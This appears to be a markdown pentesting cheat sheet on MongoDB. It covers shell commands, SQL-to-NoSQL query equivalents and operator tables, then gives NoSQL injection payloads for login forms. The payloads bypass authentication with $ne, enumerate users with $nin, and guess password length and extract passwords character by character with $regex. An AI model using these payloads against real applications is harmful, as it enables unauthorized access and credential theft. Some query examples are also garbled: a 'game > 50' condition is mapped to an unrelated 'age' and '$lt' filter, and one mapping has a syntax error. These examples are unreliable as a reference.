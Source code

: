 # Notes
- Hierarchy : database > collection (table) > documents (entries)
# Command lines
Connect
`mongo 1.1.1.1:27017/db`
List databases
`show dbs`
Swith database
`use dbname`
Show collections (tables)
`show collections`
Show collection entries (select from table)
`db.collname.find()`
# NoSQL
- SELECT * FROM collection WHERE last_name = 'Sandler';
`['last_name' => 'Sandler']`

- SELECT * FROM collection WHERE last_name = 'Phillips' AND gender = 'male';
`['last_name' => 'Phillips', 'gender' = 'male']`

- SELECT * FROM collection WHERE game >  50;
`['age' => ['$lt','Sandler']]`

# Operators reference
## Comparison
| Name | Description           |
| ---- | --------------------- |
| $eq  | equal                 |
| $gt  | greater than          |
| $gte | greater of equal than |
| $in  | contains              |
| $lt  | less than             |
| $lte | less or equal than    |
| $ne  | not equal             |
| $nin | not contains          |

## Logical
| Name | Description     |
| ---- | --------------- |
| $and | AND             |
| $not | NOT             |
| $nor | Combined negate |
| $or  | OR              |

# NoSQL Injections
## Login bypass
- Random user
Remplacer ?user=username&password=password par :
```
user[$ne]=username&password[$ne]=password
```

- Enumerate users
`user[$nin][]=admin&user[$nin][]=username1&user[$nin][]=username2&password[$ne]=password`

- Guess password length
`user[$nin][]=admin&pass[$regex]=^.{8}$&remember=on`

- Extract password
```
# Fuzz each character with burp
user=admin&pass[$regex]=A.......&remember=on
user=admin&pass[$regex]=AA......&remember=on
```
